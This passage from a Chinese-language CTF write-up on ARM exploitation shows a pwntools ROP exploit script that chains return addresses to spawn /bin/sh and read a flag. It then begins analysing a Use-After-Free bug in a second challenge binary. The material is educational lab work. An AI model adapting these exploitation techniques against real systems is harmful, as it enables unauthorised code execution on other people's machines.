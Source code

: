 ```
if __name__ == "__main__":
    sh = get_sh()
    payload  =  'x41' * 0x40 + p32(Basic_ROP.bss(0x500)) + p32(0x000103F8)      # Padding + return_addr
    payload +=  p32(Basic_ROP.bss() + 0x500 - 0x4 * 3)         # R3
    payload +=  p32(0x0001065C)                       # PC
    sh.recvuntil('Give me data to dump:')
    sh.sendline(payload)
    payload  =  '/bin/shx00'                   
    payload +=  p32(Basic_ROP.bss() + 0x500 + 0x120 - 0x4 * 4) # R11
    payload +=  p32(0x000103F8)                               # return_addr
    payload +=  p32(Basic_ROP.bss() + 0x500 - 0x10 + 0x4)     # R3
    payload +=  p32(0x0001062C)                            # PC
    payload +=  'x00' * 0x100
    payload +=  p32(0xDeadbeef)                            # R11
    payload +=  p32(0x00010574)                            # return_addr
    # payload +=  p32(Basic_ROP.plt['system'])                            # return_addr
    sh.sendline(payload)
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

### <a class="reference-link" name="%E4%BB%A5Use_After_Free%E4%B8%BA%E4%BE%8B%20%E2%80%94%E2%80%94%20%E5%A0%86%E5%88%A9%E7%94%A8%E5%AE%9E%E4%BE%8B"></a>以Use_After_Free为例 —— 堆利用实例

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-123453.png)

程序为ARM-32-dynamically linked程序。

#### <a class="reference-link" name="%E5%88%86%E6%9E%90%E9%A2%98%E7%9B%AE%E9%80%BB%E8%BE%91&amp;%E6%8E%A2%E6%B5%8B%E6%BC%8F%E6%B4%9E%E7%82%B9"></a>分析题目逻辑&amp;探测漏洞点

首先使用IDA尝试分析，发现程序逻辑较为混乱，无法顺利的理清楚。

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-124329.png)

##### <a class="reference-link" name="%E6%8E%A2%E6%B5%8BUAF%E6%BC%8F%E6%B4%9E"></a>探测UAF漏洞

那么我们首先尝试运行，

[![](./img/199112/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-18-124441.png)

发现是一个常见的表单题，除了常见的增删改查以外还提供了很多选项，但令我们很在意的是，程序在增删改查时，提供了`alias`作为索引！那么推测我们如果按index释放后是否没有把alias索引清空，经过测试，果然发现存在`Use-After-Free`漏洞！
